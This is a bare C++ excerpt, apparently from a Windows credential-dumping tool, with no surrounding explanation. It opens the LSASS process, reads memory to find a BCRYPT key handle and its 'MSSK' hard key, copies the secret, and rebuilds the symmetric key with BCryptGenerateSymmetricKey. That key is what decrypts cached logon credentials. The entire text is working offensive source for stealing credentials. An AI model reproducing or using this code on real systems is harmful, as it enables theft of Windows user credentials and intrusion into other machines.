 ```c++
	{
		szkey = sizeof(BCRYPT_KEY81);
		offset = FIELD_OFFSET(BCRYPT_KEY81, hardkey);
	}

	if (buffer = LocalAlloc(LPTR, szkey))
	{
		LONG offset64;
		if (ReadProcessMemory(cLsass->hProcess, pLsassMemory->address, &offset64, sizeof(LONG), NULL))
		{
			pLsassMemory->address = (PBYTE)pLsassMemory->address + sizeof(LONG) + offset64;
			localMemory.address = &pLsassMemory->address;

			if (ReadProcessMemory(cLsass->hProcess, pLsassMemory->address, localMemory.address, sizeof(BCRYPT_KEY_HANDLE), NULL))
			{
				if (ReadProcessMemory(cLsass->hProcess, pLsassMemory->address, &hKey, sizeof(BCRYPT_HANDLE_KEY), NULL) && hKey.tag == 'UUUR')
				{
					if (ReadProcessMemory(cLsass->hProcess, hKey.key, buffer, szkey, NULL) && ((PBCRYPT_KEY)buffer)->tag == 'MSSK')
					{
						pHardKey = (PHARD_KEY)((PBYTE)buffer + offset);

						if (localMemory.address = LocalAlloc(LPTR, pHardKey->cbSecret))
						{
							pLsassMemory->address = (PBYTE)hKey.key + offset + FIELD_OFFSET(HARD_KEY, data);
							if (ReadProcessMemory(cLsass->hProcess, pLsassMemory->address, localMemory.address, pHardKey->cbSecret, NULL))
							{
								__try
								{
									status = NT_SUCCESS(BCryptGenerateSymmetricKey(pGenKey->hProvider, &pGenKey->hKey, pGenKey->pKey, pGenKey->cbKey, (PUCHAR)localMemory.address, pHardKey->cbSecret, 0));
								}
								__except (GetExceptionCode() == ERROR_DLL_NOT_FOUND) {}
							}
							LocalFree(localMemory.address);
						}
					}
				}
			}
		}
		LocalFree(buffer);
	}
	return status;
}
```
